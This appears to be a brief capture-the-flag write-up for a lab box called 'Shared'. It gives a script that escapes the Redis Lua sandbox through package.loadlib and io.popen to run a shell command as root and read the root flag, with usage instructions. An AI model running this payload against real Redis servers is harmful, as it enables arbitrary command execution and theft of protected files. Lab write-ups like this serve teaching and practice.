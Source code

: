 # Shared

The box involves classic web exploitation, but the root flag requires hacking with Redis:

```sh
# hack.sh

redis-cli --pass "$1" eval 'local t = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = t(); local b = io.popen("cat /root/root.txt"); local s = b:read("*a"); b:close(); return s' 0;
```

Use it like that on the victim's machine: `sh hack.sh {REDIS_ROOT_PASSWORD_YOU_HACKED}`

[Source for inspiration](https://cn-sec.com/archives/1159396.html)
